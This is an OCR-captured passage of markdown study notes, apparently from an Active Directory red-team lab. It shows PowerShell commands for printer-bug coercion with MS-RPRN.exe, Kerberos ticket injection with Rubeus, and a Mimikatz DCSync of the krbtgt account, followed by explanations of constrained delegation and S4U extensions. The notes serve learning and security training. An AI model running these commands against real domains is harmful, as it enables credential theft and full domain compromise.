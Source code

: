 ```powershell
.\MS-RPRN.exe \\dc-user-here \\user-from-Poll-Server-Method
```

## <span style="color:lightgreen">Rubeus.exe</span>
### <span style="color:#F1C232">3. Inject the b64 encoded ticket</span>

```powershell
.\Rubeus.exe ptt /ticket:b64-text-goes-here
```

## <span style="color:lightgreen">Invoke-Mimikatz</span>
### <span style="color:#F1C232">4. Perform a DCSync attack against DCORP-DC using the injected ticket</span>

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# <span style="color:lightblue">Constrained Delegation</span>

* Constrained Delegation when enabled on a service account, allows access only to specified services on specified computers as a user.
* A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.

## <span style="color:lightgreen">Extensions Required</span>

* To impersonate the user, Service for User (S4U) extension is used which provides two extensions:
  1. *Service for User to Self (S4U2self)* : Allows a service to obtain a forwardable TGS to itself on behalf of a user.
  2. *Service for User to Proxy (S4U2proxy)* : Allows a service to obtain a TGS to a second service on behalf of a user.

## <span style="color:lightgreen">Detailed Explaination</span>
*Service for User to Self (S4U2self)* : Allows a service to obtain a forwardable TGS
to itself on behalf of a user with just the user principal name without supplying a
password. The service account must have the & TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION — T2A4D UserAccountControl attribute.

*Service for User to Proxy (S4U2proxy)* : Allows a service to obtain a TGS toa
second service on behalf of a user. Which second service? This is controlled by
msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to
which the user tokens can be forwarded. on
